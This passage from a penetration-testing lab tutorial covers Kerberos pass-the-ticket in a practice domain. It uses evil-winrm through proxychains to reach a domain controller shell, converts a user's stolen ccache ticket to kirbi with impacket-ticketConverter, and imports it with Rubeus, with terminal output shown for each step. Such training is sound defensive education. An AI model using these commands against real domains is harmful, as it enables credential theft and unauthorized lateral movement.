 Now we can use evil-winrm.

#### Using Evil-WinRM with Kerberos
```shell-session
canklesmaks@htb[/htb]$ proxychains evil-winrm -i dc01 -r inlanefreight.htb

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14

Evil-WinRM shell v3.3

Warning: Remote path completions are disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:5985  ...  OK
*Evil-WinRM* PS C:\Users\julio\Documents> whoami ; hostname
inlanefreight\julio
DC01
```

## Miscellaneous

If we want to use a `ccache file` in Windows or a `kirbi file` in a Linux machine, we can use [impacket-ticketConverter](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py) to convert them. 
* to use it, we specify the file we want to convert and the output filename. Let's convert Julio's ccache file to kirbi.
#### Impacket Ticket Converter

```shell-session
canklesmaks@htb[/htb]$ impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] converting ccache to kirbi...
[+] done
```

We can do the reverse operation by first selecting a `.kirbi file`. Let's use the `.kirbi` file in Windows.

#### Importing Converted Ticket into Windows Session with Rubeus

```cmd-session
C:\htb> C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: Import Ticket
[+] Ticket successfully imported!
```